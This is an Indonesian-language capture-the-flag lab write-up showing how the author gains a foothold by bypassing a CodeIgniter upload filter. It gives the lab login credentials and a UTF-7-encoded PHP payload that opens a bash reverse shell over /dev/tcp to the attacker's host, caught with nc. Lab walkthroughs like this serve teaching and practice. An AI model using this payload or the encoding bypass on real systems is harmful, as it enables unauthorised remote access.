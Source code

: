 ### Gaining Access w/ PHP Reverse Shell

- Setelah berhasil login menggunakan username: `jay_payakumbuah` dengan password: `Lzj*7BL%#fMhq`, kemudian saya coba lihat isi di dalam webnya, ternyata ada satu fitur untuk upload sebuah dokumen yang bisa dimanfaatkan sebagai celah _**arbitrary file upload**_.
- Saya coba analisis lagi source code PHP yang tertera di folder `yourspace` sebelumnya.
- Setelah penantian cukup panjang, saya menyadari bahwa fitur tersebut pasti ada di sebuah **Controllers**, detailnya ada di file `MedicalController.php` (_lebih lengkapnya baca terkait arsitektur folder MVC pada framework CodeIgniter_).
- Terdapat limitasi pada fungsi upload file, yaitu:
    - Jika file yang di upload berekstensi **.php, .pht, atau .phtml**, maka terdeteksi sebagai malicious file.
    - Jika ada tag pembuka php (`<?`) di dalam konten yang di upload, maka terdeteksi juga sebagai malicious file.

![Moonstone-08](https://raw.githubusercontent.com/whyuhurtz/hackmd-blog/main/2024/_assets/hacktrace-ranges_boot2root3-08.png)

- Untuk membypass hal tersebut, saya coba baca lagi informasi `http://10.1.2.232/info.asp` untuk melihat apakah ada celah yang bisa dimanfaatkan untuk bypass limitasi tadi.
- Ternyata, di bagian `zend.script_encoding` bisa juga menggunakan `UTF-7`, yang mana memungkinkan untuk untuk bisa mendapatkan reverse shell asal payloadnya dalam format `UTF-7`. Ini payload lengkapnya:

```php
+ADw-?php exec("bash -i +AD4-& /dev/tcp/10.18.200.127/4444 0+AD4-&1") ?+AD4-
```

- Untuk tanda `<` di-encode ke `UTF-7` menjadi: `+ADw-`. Dan tanda `>` menjadi: `+AD4-` (lebih lengkapnya baca artikel berikut: [https://stackoverflow.com/questions/77609263/convert-utf-8-to-utf-7-in-python](https://stackoverflow.com/questions/77609263/convert-utf-8-to-utf-7-in-python)).
- Tetapi, setelah coba di upload masih gagal, karena kenapa ? karena by default ekstensinya adalah `.asp` (agak menjengkelkan sih ini wkwk). Hal itu dibuktikan dengan fungsi `phpinfo()` yang tetap berjalan meskipun ekstensi filenya `.asp`.
- Oke fix upload dan jangan lupa untuk listen ke port `4444` menggunakan `nc`.

